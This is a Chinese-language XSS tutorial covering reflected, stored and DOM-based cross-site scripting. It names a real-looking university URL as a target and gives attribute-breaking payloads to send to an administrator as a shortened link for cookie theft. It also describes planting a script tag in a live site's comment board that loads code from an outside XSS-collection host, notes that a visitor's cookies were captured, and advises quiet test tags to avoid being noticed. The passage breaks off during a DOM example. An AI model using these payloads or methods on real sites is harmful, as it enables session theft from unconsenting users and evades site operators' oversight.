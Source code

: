 # XSS分类与漏洞挖掘

![](/attackUsers/xss/image/xss-17.png)

---
## 01. 前言
当第一期出来的时候，反馈很好，但还是有很多人提出疑问，我这里就解答下。

```
问1：如果我输入PHP语句会不会执行。
答1：不会，因为XSS是面对前台的(用户可见部分)，而PHP则是后台处理(用户不可见部分)，如果可以执行PHP语句的话，那不叫XSS，叫"任意代码执行"。

问2：XSS和CSRF有什么区别么？
答2：有的，XSS是获取信息，不需要提前知道其他用户页面的代码和数据包。CSRF是代替用户完成指定的动作，需要知道其他用户页面的代码和数据包。

问3：为什么我在chrome浏览器下测试<script>alert("xss")</script>并没有成功。
答3：chrome内核与ie内核不一样，chrome的过滤机制比ie强。现在测试xss一般都拿能过chrome的为主，所以当你输入xss的时候，可能被chrome的过滤机制给过滤了。
```

## 02. 反射型XSS
反射XSS是XSS分类中最多的，他们原理是下面这样：

>Hacker——发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码、缩短(可有可无，是为了增加迷惑性)——发送给受害人——受害打开后，执行XSS代码——完成hacker想要的功能(获取cookies、url、浏览器信息、IP等等)

原理搞清楚，那就说说怎么挖掘吧.
现在市面上的软件(JSky、Safe3WVS、Netsparker等)都可以挖掘出反射XSS，但是想要那些更隐蔽的XSS还是需要手工的，我先使用软件挖掘一些反射XSS，然后介绍手工挖掘。

![](/attackUsers/xss/image/xss-18.png)

找到后，我们来打开

```
http://gdjy.hfut.edu.cn/viewcomp.jsp?id=hzgz123
```

打开后，我们试着在参数也就是id=hzgz123后面加上woaini(或则其他字符，这串字符必须保持唯一性，也就是说在整个网站里，他必须唯一一个不和其他字符相同的字符串)输入woaini后，打开，查看源代码(ctrl+u)，按下ctrl+f来搜索woaini字符串，看出现在哪个位置。

![](/attackUsers/xss/image/xss-19.png)

我们发现woaini字符在a标签的href属性里，那我们就可以根据这个环境来构造了，我们可以用`"></a><script>alert("xss")</script>`来先闭合掉a标签。然后再用script来运行js代码。也可以这样`onclick="alert(1)";>123</a>//`点击123触发onclick来运行js，然后把后面的内容来注释掉。构造好代码后，把url变成短连接，发送给管理员，诱惑管理员打开，就可以获取管理员的cookies了。

OK，软件挖XSS大致就这些，手工其实和这差不多，手工的话，记住一句话“`见框就插`、`改数据包不可见部分`、`改URL参数`、`js分析`”就可以了。改数据包、js分析比较深，现在我就不再阐述了，见框就插，大家应该都明白，** 找到一个input输入框，先输入唯一字符串，然后看源代码里有没有出现** ，再输入`<>""/&()`来看看过滤了哪些字符，根据过滤的字符，来构造xss。

下图是QQ空间一处反射XSS，因为是朋友给的，我也不清楚是否被提交，所以我就不放出了。

![](/attackUsers/xss/image/xss-20.png)

## 03 储蓄型XSS
PS：有的人叫持久型，各有各的叫法，所以不用太介意。

储蓄型XSS其实和反射型XSS差不多，只是储蓄型把数据保存到服务端，而反射型只是让XSS游走在客户端上。下面是我在某处网站上检测到的储蓄XSS，大家知道原理就OK。

目标站点：`http://www.*******.com/`

习惯性的打开留言处(book.asp)，点击留言(这里最好不要使用<script>alert("xss")</script>来测试是否存在XSS漏洞，容易被管理员发现，所以你可以使用<a></a>来测试，如果成功了，不会被管理员发现)OK，我先在留言里出输入<a>s</a>提交留言，F12打开审查元素，来看我们输入的标签是否被过滤了.

![](/attackUsers/xss/image/xss-21.png)

OK，发现没有过滤(如果`<a>s</a>`是彩色的说明没有过滤，如果是灰色就说明过滤了)

那我就在xss平台里创建一个项目，然后再次留言，里面写上，“`<script src="http://xss8.pw/EFe2Ga?1409273226"></script>`请问怎么报名啊”

![](/attackUsers/xss/image/xss-22.png)

名字是我乱起的，这样一来，只要你访问`http://www.******.com/book.asp`

就可以获取你的cookies，以及后台地址(因为留言板一般都在后台做审核)。但是，管理员好像死了，已经6天了，还没看。今天上xss平台一看有个cookies，看了下，是路人的，并不是管理员的。

![](/attackUsers/xss/image/xss-23.png)

但是使用方法大家也应该懂了。只要你打开 `http://www.******.com/book.asp` 我就会在第一时间获取你的cookies。

## 04. DOM XSS
DOM XSS是基于在js上的。而且他不需要与服务端进行交互，像反射、储蓄都需要服务端的反馈来构造xss，因为服务端对我们是不可见的

挖掘DOM XSS比较麻烦，因为有时你需要追源，对方可能会自定义函数，所以你需要一步一步来把对方自定义的函数来搞清楚。下面我举个最简单的例子：

在1.html里输入

```html
<script>
          document.write(document.URL.substring(document.URL.indexOf("a=")+2,document.URL.length));
</script>
```

在这里我先解释下上面的意思

```
Document.write  是把里面的内容写到页面里。
document.URL    是获取URL地址。
Substring       从某处到某处，把之间的内容获取。
document.URL.indexOf("a=")+2  是在当前URL里从开头检索a=字符，然后加2(因为a=是两个字符，我们需要把他略去)，同时他也是substring的开始值
document.URL.length  是获取当前URL的长度，同时也是substring的结束值。
```
